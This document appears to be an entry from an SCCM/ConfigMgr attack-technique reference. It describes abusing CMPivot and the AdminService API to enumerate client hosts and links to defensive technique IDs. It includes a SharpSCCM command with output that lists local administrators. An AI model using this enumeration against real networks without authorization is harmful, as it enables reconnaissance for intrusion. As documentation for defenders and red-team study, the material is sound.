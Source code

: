 # Leverage CMPivot to query information from ConfigMgr client hosts
## Code Name
- RECON04

## ATT&CK TTPs
- [TA0009 - Collection](https://attack.mitre.org/tactics/TA0009/)
- [TA0010 - Exfiltration](https://attack.mitre.org/tactics/TA0010/)
- [TA0043 - Reconnaissance](https://attack.mitre.org/tactics/TA0043/)

## Required Privilege / Context
- Run CMPivot permission on the Collection scope
- Read permission on Collections
- Read permission on Inventory Reports
- Read permission on the SMS Scripts object (n/a after version 2107)
- The default scope (n/a after version 2107)
- Target clients require a minimum of PowerShell version 4
- Additional details: https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot#permissions

## Summary
CMPivot is part of the ConfigMgr framwework. It allows for real time collection of data from client hosts.

The data collected is based on different queries available as part of the framework. Queries are made using the Kusto Query Language (KQL) and allows for different filters to be applied to the data received.

These queries allow CMPivot users to pull data like Windows event logs, registry values, file contens, local group information, etc.

The most common usage of CMPivot is done through a GUI. From the CMPivot window we can:
1. In the SCCM Manager console select the target/s to run queries against (Single resource or a collection)
2. Select the query from the left pane or enter it manually in the query pane plus any desired filters
3. Run the query on the target client or collection
4. Results pane displays the data returned

In the background the data obtained from these queries is gathered either through WMI or by running a Powershell script on the client/s (Powershell script is run as SYSTEM on targets)
   
Additionally ConfigMgr exposes the AdminService REST API which in turn exposes methods to perform CMPivot queries.

https://{managementPoint}/AdminService/v1.0/Device({deviceId})/AdminService.RunCMPivot

AdminService also allows for retriving the results of our queries.

https://{managementPoint}/AdminService/v1.0/Collections('{collectionName}')/AdminService.RunCMPivot


## Impact
With the required permissions an attacker can leverage CMPivot + AdminService to deploy operations to client hosts within a ConfigMgr site.

Some of these operations allow for enumeration of:

  - Active sessions
  - Registry keys and values
  - Local administrator group
  - Arbitrary file contents
  - Windows event logs

And a lot more. There are more than 130 queries available

## Defensive IDs
------------------------------------------
- [PROTECT04](../../defense-techniques/PROTECT04/protect04-description.md)
- [PROTECT07](../../defense-techniques/PROTECT07/protect07-description.md)
- [PROTECT08](../../defense-techniques/PROTECT08/protect08-description.md)
- [PROTECT11](../../defense-techniques/PROTECT11/protect11-description.md)
-----------------------------------------
## Examples

- Using SharpSCCM to enumerate local administrators group from the ConfigMgr client with ID 16777226
```
.\SharpSCCM.exe invoke admin-service -r 16777226 -q "Administrators" -sms site-sms -d 10

  _______ _     _ _______  ______  _____  _______ _______ _______ _______
  |______ |_____| |_____| |_____/ |_____] |______ |       |       |  |  |
  ______| |     | |     | |    \_ |       ______| |______ |______ |  |  |    @_Mayyhem

[+] Sending query to AdminService
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.RunCMPivot"
[+] OperationId found: 16777463
[+] Attempt 1 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Attempt 2 of 5: Checking for query operation to complete
[+] URL: "https://site-sms/AdminService/v1.0/Device(16777226)/AdminService.CMPivotResult(OperationId=16777463)"
[+] 10 seconds until next attempt
[+] Successfully retrieved results from AdminService
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\CAS$
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: Group
Name: MAYYHEM\Domain Admins
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: MAYYHEM\sccmadmin
PrincipalSource: ActiveDirectory
----------------------------------------
Device: SITE-SERVER
ObjectClass: User
Name: SITE-SERVER\Administrator
PrincipalSource: Local
----------------------------------------
[+] Completed execution in 00:00:21.1354974
```

## References
- Microsoft, CMPivot for real-time data in Configuration manger, https://learn.microsoft.com/en-us/mem/configmgr/core/servers/manage/cmpivot
- Benoit Lecours, SCCM CMPivot Query Examples, https://www.systemcenterdudes.com/sccm-cmpivot-query/
- Microsoft, What is the administration service in ConfigMgr, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview
- Diego Lomellini, Lateral Movement without Lateral Movement, https://posts.specterops.io/lateral-movement-without-lateral-movement-brought-to-you-by-configmgr-9b79b04634c7
